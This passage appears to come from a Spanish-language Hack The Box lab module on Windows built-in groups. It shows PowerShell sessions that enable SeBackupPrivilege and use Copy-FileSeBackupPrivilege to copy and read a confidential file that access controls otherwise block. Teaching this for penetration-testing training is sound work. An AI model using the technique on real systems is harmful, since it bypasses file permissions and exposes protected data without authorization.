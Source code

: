 ```powershell-session
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

#### Copiar un archivo protegido

Como podemos ver anteriormente, el privilegio se habilitó con éxito. Este privilegio ahora se puede aprovechar para copiar cualquier archivo protegido.

  Grupos incorporados de Windows

```powershell-session
PS C:\htb> dir C:\Confidential\

    Directory: C:\Confidential

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/6/2021   1:01 PM             88 2021 Contract.txt


PS C:\htb> cat 'C:\Confidential\2021 Contract.txt'

cat : Access to the path 'C:\Confidential\2021 Contract.txt' is denied.
At line:1 char:1
+ cat 'C:\Confidential\2021 Contract.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Confidential\2021 Contract.txt:String) [Get-Content], Unauthor
   izedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

  Grupos incorporados de Windows

```powershell-session
PS C:\htb> Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt

Copied 88 bytes


PS C:\htb>  cat .\Contract.txt

Inlanefreight 2021 Contract

==============================

Board of Directors:

<...SNIP...>
```
